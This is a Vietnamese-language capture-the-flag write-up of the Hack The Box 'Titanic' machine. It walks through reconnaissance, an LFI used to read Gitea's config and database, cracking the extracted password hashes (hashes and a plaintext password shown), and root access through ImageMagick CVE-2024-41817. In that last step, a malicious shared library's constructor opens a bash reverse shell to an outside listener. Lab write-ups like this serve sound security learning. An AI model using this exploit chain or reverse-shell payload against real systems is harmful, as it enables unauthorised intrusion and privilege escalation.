





## Reconnaissance and Scanning

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGZG4yHYcDPrtn7U0l+ertBhGBgjIeH9vWnZcmqH0cvmCNvdcDY/ItR3tdB4yMJp0ZTth5itUVtlJJGHRYAZ8Wg=
|   256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDT1btWpkcbHWpNEEqICTtbAcQQitzOiPOmc3ZE0A69Z
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Thêm domain vào file hosts

```bash
10.10.11.55     titanic.htb
```

## Enumeration and Gaining access
### Vhosts, directories

Tìm các web path 

```bash
┌──(neo㉿fs0c13ty)-[~/htb/machines/titanic]
└─$ feroxbuster -u http://titanic.htb -s 200,301,302,403

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://titanic.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 301, 302, 403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       30l       77w      567c http://titanic.htb/static/styles.css
200      GET     2986l     7000w   469100c http://titanic.htb/static/assets/images/favicon.ico
200      GET      851l     5313w   507854c http://titanic.htb/static/assets/images/exquisite-dining.jpg
200      GET      664l     5682w   412611c http://titanic.htb/static/assets/images/home.jpg
200      GET      890l     5324w   534018c http://titanic.htb/static/assets/images/entertainment.jpg
200      GET      859l     5115w   510909c http://titanic.htb/static/assets/images/luxury-cabins.jpg
200      GET      156l      415w     7399c http://titanic.htb/
403      GET        9l       28w      276c http://titanic.htb/server-status
[####################] - 2m     30012/30012   0s      found:8       errors:10
[####################] - 2m     30000/30000   316/s   http://titanic.htb/
```

Không có gì nhiều để khai thác, tôi sẽ tiếp tục tìm kiếm vhost. Scan lần đầu tôi thấy cần phải thêm redirect. Scan lần 2 tôi được các vhost trùng lặp với size 7399. Thêm các option này để quét lần 3

```bash
┌──(neo㉿fs0c13ty)-[~/htb/machines/titanic]
└─$ ffuf -r -u http://titanic.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.titanic.htb" -fs 7399 -t 20

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://titanic.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.titanic.htb
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 7399
________________________________________________

dev                     [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 196ms]
```

Thêm vào file host

```bash
10.10.11.55     titanic.htb     dev.titanic.htb
```

### titanic.htb

Quay trở lại với domain chính, lướt qua 1 chút về trang này, đây là 1 trang để book chỗ trên tàu titanic. 


Thử nhập các thông tin và submit, vé sẽ được tải về máy của tôi dưới dạng file json. Xem qua file json được tải về thì tôi thấy đúng là những gì tôi đã nhập, suy ra là dữ liệu được server xử lý -> có method POST.

Sử dụng burpsuite để phân tích request



Nhìn thấy kiểu format này làm tôi nghĩ ngay đến LFI, thử inject một số payload đơn giản


Vậy là có lỗ hổng LFI ở đây và có 1 user tồn tại trong server là *developer*. Thử truy cập vào thư mục của user này xem có lấy được user flag không.



Tìm một số file mặc định như crontab hay access.log nhưng không có kết quả mong đợi, tôi sẽ để nó ở đây và sang tiếp con đường thứ 2 là vhost `dev.titanic.htb`

### dev.titanic.htb

Một trang mới build bằng [gitea](https://github.com/go-gitea/gitea) phiên bản 1.22.1. Tại đây sẽ chia thành 2 hướng khai thác: 

- Tìm lỗ hổng có thể khai thác của phiên bản 1.22.1
- Kết hợp với lỗ hổng LFI đã có để xem nội dung các file backend

Mất gần nửa tiếng để đi theo hướng đầu tiên, nhưng với phiên bản 1.22.1, tôi không tìm thấy bất kỳ lỗ hổng nào khả thi để có thể khai thác.

Tập trung vào cách thứ 2. Đầu tiên tôi sẽ thử đăng ký 1 tài khoản để xem có gì bên trong Gitea này không


Tìm đến Explore, tôi có 2 repo của user *developer*, mỗi repo đều cho tôi một số thông tin có giá trị.

*docker-config*




Tôi tìm được thư mục của gitea nằm trong `/home/developer`. Bỏ ra chút thời gian để nghiên cứu source code của Gitea trên Github, tôi tìm được file conf sẽ được lưu tại `/conf/app.ini`. Kết hợp với lỗ hổng LFI đã có và thử một số khả năng




Đây rồi! Mở file `gitea.db`



Ngay ở dòng đầu tôi đã có SQLite format nên tôi sẽ tải file này về và mở nó bằng sqlitebrowser


Tìm đến bảng user


Sau một lúc lần mò thì tôi tìm thấy cách crack ở [đây](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes). Thử làm như trong bài xem có được không.

Đầu tiên sử dụng [gitea2hashcat.py](https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py) để lấy password hash theo format chuẩn.

```bash
 ~/htb/machines/titanic  sqlite3 gitea.db 'select passwd,salt from user;' | python3 gitea2hashcat.py                                                           
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)

sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Crack 2 hash này với hashcat

```bash
hashcat hash /usr/share/wordlists/rockyou.txt                                                                                                      ✔ 
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-12th Gen Intel(R) Core(TM) i7-1280P, 6858/13780 MB (2048 MB allocatable), 20MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 5 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

## Privilege escalation

Login vào user này

```bash
~/htb/machines/titanic ssh developer@10.10.11.55
developer@10.10.11.55's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Mar 27 04:51:54 PM UTC 2025

  System load:           0.29
  Usage of /:            84.8% of 6.79GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             230
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.55
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f50f


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Thu Mar 27 16:43:33 2025 from 10.10.14.41
developer@titanic:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)
```

Tải linpeas.sh lên máy này và để nó phân tích

```bash
╔══════════╣ Running processes (cleaned)
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#processes
Looks like /etc/fstab has hidepid=2, so ps will not show processes of other users
develop+  458935  0.0  0.1   9196  5672 pts/1    Ss   16:53   0:00 -bash
develop+  459181  0.1  0.0   4476  3360 pts/1    S+   17:00   0:00  _ /bin/sh ./linpeas.sh
develop+  480673 73.5  0.0   7788  3212 pts/1    R+   17:02   0:01      _ find / -type f ( -name *backup* -o -name *.bak -o -name *.bak.* -o -name *.bck -o -name *.bck.* -o -name *.bk -o -name *.bk.* -o -name *.old -o -name *.old.* ) -not -path /proc/*
develop+  458795  0.0  0.1   8908  5764 pts/0    Ss   16:51   0:00 -bash
develop+  464406  0.0  0.0   3948  2716 pts/0    S+   17:01   0:00  _ /bin/sh ./linpeas.sh
develop+  480734  0.0  0.0   3948  1148 pts/0    S+   17:02   0:00      _ /bin/sh ./linpeas.sh
develop+  480738  0.0  0.0  10044  1592 pts/0    R+   17:02   0:00      |   _ ps fauxwww
develop+  480737  0.0  0.0   3948  1148 pts/0    S+   17:02   0:00      _ /bin/sh ./linpeas.sh
develop+    1738  0.0  4.3 1403008 170892 ?      Ssl  12:52   0:12 /usr/local/bin/gitea web
develop+  458718  0.0  0.2  17204  9928 ?        Ss   16:51   0:00 /lib/systemd/systemd --user
develop+  462179  0.0  0.1   8300  4252 ?        Ss   17:01   0:00  _ /usr/bin/dbus-daemon[0m --session --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
develop+    1156  2.8  0.8 1065000 33360 ?       Ss   12:51   7:09 /usr/bin/python3 /opt/app/app.py
```

Có 1 thư mục trong `/opt`

```bash
developer@titanic:/opt$ ll
total 20
drwxr-xr-x  5 root root      4096 Feb  7 10:37 ./
drwxr-xr-x 19 root root      4096 Feb  7 10:37 ../
drwxr-xr-x  5 root developer 4096 Feb  7 10:37 app/
drwx--x--x  4 root root      4096 Feb  7 10:37 containerd/
drwxr-xr-x  2 root root      4096 Feb  7 10:37 scripts/
```

Chỉ chỉ có `app/` và `scripts` có thể truy cập được

```bash
developer@titanic:/opt$ ll scripts/
total 12
drwxr-xr-x 2 root root 4096 Feb  7 10:37 ./
drwxr-xr-x 5 root root 4096 Feb  7 10:37 ../
-rwxr-xr-x 1 root root  167 Feb  3 17:11 identify_images.sh*
developer@titanic:/opt/scripts$ cat identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

File này thuộc sở hữu của root nhưng ai cũng có thể chạy được. Tôi sẽ lợi dụng điều này để thử leo thang đặc quyền. Script này có sử dụng 1 tool là `magick`. Tôi sẽ tìm cách lợi dụng nó

```bash
developer@titanic:/opt/scripts$ /usr/bin/magick -help
Usage: magick tool [ {option} | {image} ... ] {output_image}
Usage: magick [ {option} | {image} ... ] {output_image}
       magick [ {option} | {image} ... ] -script {filename} [ {script_args} ...]
       magick -help | -version | -usage | -list {option}

developer@titanic:/opt/scripts$ /usr/bin/magick -version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff png x xml zlib
Compiler: gcc (9.4)
```

Tìm kiếm lỗ hổng của phiên bản này, tôi có [CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/issues/7568)

Làm từng bước theo PoC này. Tôi sẽ thêm 1 payload với command đơn giản `id` để kiểm tra xem `magick` có chạy được không.

```bash
developer@titanic:~$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
```

```bash
developer@titanic:~$ ll libxcb.so.1
-rwxrwxr-x 1 developer developer 15616 Mar 31 08:55 libxcb.so.1*
developer@titanic:~$ /usr/bin/magick
uid=1000(developer) gid=1000(developer) groups=1000(developer)
```

Vậy là payload thực hiện thành công. Tôi sẽ thay đổi payload thành revershell. 

Trước đó thì bật listener.

```bash
neo@fs0c13ty ~$ nc -lnvp 9001
listening on [any] 9001 ...
```

```bash
developer@titanic:~$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("/bin/bash -c 'bash -i >&/dev/tcp/10.10.14.22/9001 0>&1'");
    exit(0);
}
EOF
```

```bash
neo@fs0c13ty ~$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.55] 47498
bash: cannot set terminal process group (3480): Inappropriate ioctl for device
bash: no job control in this shell
root@titanic:/opt/app/static/assets/images# id
id
uid=0(root) gid=0(root) groups=0(root)
root@titanic:/opt/app/static/assets/images# cd
cd
root@titanic:~# ls
ls
cleanup.sh
images
revert.sh
root.txt
snap
```
